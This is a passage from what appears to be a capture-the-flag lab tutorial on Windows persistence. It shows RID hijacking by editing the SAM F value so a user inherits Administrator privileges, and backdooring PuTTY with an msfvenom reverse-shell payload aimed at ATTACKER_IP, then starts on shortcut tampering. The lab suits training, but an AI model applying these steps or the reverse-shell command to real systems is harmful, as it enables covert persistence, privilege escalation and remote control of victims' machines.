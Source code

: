 In any Windows system, the default Administrator account is assigned the RID $=$ 500, and regular users usually have RID $\geq$ 1000. The RID is the last bit of the SID. The SID is an identifier that allows the operating system to identify a user across a domain, but we won't mind too much about the rest of it for this task.

Now we only have to assign the RID=500 to thmuser3. To do so, we need to access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec, available in `C:\tools\pstools` in our machine.

From Regedit, we will go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). Under the corresponding key, there will be a value called **F**, which holds the user's effective RID at position 0x30.

Notice the RID is stored using little-endian notation, so its bytes appear reversed. We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401). The next time thmuser3 logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.

## Backdooring Files

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files

If there is any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

We can easily plant a payload of our preference in any `.exe` file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in our binary. To create a backdoored `putty.exe`, we can use the following command:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

### Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.
